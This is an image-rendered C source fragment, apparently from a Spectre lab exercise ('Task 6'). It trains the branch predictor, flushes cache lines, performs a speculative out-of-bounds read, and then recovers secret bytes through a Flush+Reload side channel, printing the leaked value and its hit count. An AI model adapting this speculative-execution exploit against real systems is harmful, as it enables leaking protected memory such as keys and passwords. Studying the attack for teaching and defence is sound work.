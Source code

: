 ```c
	uint8_t s;
	volatile int z;
// Train the CPU to take the true branch inside restrictedAccess().
	for (i = 0; i < 10; i++) {
		restrictedAccess(i);
	}
// Flush bound_upper, bound_lower, and array[] from the cache.
	_mm_clflush(&bound_upper);
	_mm_clflush(&bound_lower);
	for (i = 0; i < 256; i++) { _mm_clflush(&array[i * 4096 + DELTA]); }
	for (z = 0; z < 100; z++) { }
	s = restrictedAccess(index_beyond);
	array[s * 4096 + DELTA] += 88;
}

int main() {
	int i;
	uint8_t s;
	for (int k = 0; k < 17; ++k) {	// Task 6
		size_t index_beyond = (size_t)(secret - (char*)buffer);
		flushSideChannel();
		for (i = 0; i < 256; i++) scores[i] = 0;
		for (i = 0; i < 1000; i++) {
			printf("*****\n"); // MARK 1
			spectreAttack(index_beyond + k);
			usleep(10); // MARK 2
			reloadSideChannelImproved();
		}
		int max = 1;
		for (i = 1; i < 256; i++) {
			if (scores[max] < scores[i])
				max = i;
		}
		printf("Reading secret value at index %ld\n", index_beyond);
		printf("The secret value is %d(%c)\n", max, max);
		printf("The number of hits is %d\n", scores[max]);
	}
	return (0);
}
```

